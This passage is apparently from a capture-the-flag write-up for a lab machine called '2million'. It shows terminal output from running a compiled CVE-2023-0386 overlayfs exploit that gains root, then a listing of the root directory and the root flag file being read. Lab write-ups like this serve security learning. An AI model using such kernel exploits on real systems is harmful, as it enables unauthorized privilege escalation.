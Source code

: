 Terminal 2:
```
root@2million:~/CVE-2023-0386# ./exp
uid:0 gid:0
[+] mount success
ls: reading directory './ovlcap/merge': Permission denied
total 0
open: Permission denied
[+] exploit success!
```

## Root flag
Root access granted.

```
root@2million:/root# ls -la
total 48
drwx------  8 root root 4096 Jun 25 16:23 .
drwxr-xr-x 19 root root 4096 Jun  6 10:22 ..
lrwxrwxrwx  1 root root    9 Apr 27 16:10 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  2 root root 4096 Jun  6 10:22 .cache
drwxr-xr-x  3 root root 4096 Jun  6 10:22 .cleanup
drwx------  4 root root 4096 Jun  6 10:22 .gnupg
drwxr-xr-x  3 root root 4096 Jun  6 10:22 .local
lrwxrwxrwx  1 root root    9 May 26 22:55 .mysql_history -> /dev/null
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
drwx------  2 root root 4096 Jun  6 10:22 .ssh
-rw-r-----  1 root root   33 Jun 25 16:23 root.txt
drwx------  3 root root 4096 Jun  6 10:22 snap
-rw-r--r--  1 root root 3767 Jun  6 12:43 thank_you.json
root@2million:/root# cat root.txt
1a10e8bcdfe6992f1b781a4c96521dbf
```